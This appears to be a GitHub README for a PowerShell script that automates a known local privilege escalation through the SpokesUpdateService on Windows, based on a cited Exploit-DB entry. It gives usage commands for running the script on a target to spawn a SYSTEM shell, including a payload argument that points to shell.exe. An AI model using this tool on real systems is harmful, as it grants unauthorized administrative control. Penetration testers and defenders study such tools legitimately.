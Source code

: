 # Get-Spokes3GSystem
PowerShell script to aid in the automation of local privilege escalation path with the SpokesUpdateService

Based on the original exploit found here: [https://www.exploit-db.com/exploits/47845](https://www.exploit-db.com/exploits/47845)

<br><br>

# Tested on:
Windows Server 2019

<br><br>

# Usage:
1. Download the script to the target
2. If using a custom payload file, place that in a writable directory on the target
3. Run the script
  - If using the script as-is, will spawn cmd.exe as SYSTEM
  
```powershell
.\Get-Spokes3GSystem.ps1
```

```powershell
.\Get-Spokes3GSystem.ps1 -Payload "$($env:USERNAME)|advertise|C:\Windows\Temp\shell.exe"
```
